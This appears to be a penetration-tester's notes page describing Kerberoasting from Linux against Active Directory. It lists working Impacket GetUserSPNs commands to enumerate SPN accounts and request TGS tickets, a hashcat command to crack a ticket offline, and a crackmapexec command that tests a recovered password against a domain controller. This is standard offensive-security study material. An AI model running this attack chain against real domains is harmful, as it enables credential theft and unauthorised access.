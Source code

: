 # Kerberoasting - From Linux

## Kerberoasting Attack Process

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Step 1: Fix Clock Skew Error

To fix the clock skew error, use the following commands:

```bash
timedatectl set-ntp off
sudo ntpdate 192.168.10.20
```

### Prerequisites

A prerequisite for performing Kerberoasting attacks is having domain user credentials (either cleartext or an NTLM hash, if using Impacket), a shell in the context of a domain user account, or a high-privileged account like SYSTEM. Once you gain this level of access, you can start. You also need to identify the Domain Controller within the domain to query it.

### Target of the Attack

This attack targets **Service Principal Names (SPN)** accounts.

SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

Any domain user can request a Kerberos ticket for any service account in the same domain.

**Depending on your position in a network, this attack can be performed in multiple ways:**

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

#### Commands

* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil` → list SPN accounts
* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil -request` → Requesting all TGS tickets
* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil -request-user sqldev` → Requesting a single TGS ticket.

We can use `-outputfile filename` flag to save the TGS ticket in a file.

* `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt` → Cracking Ticket offline using Hashcat
* `sudo crackmapexec smb 192.168.10.20 -u sqldev -p database!` → Testing authentication against a domain controller

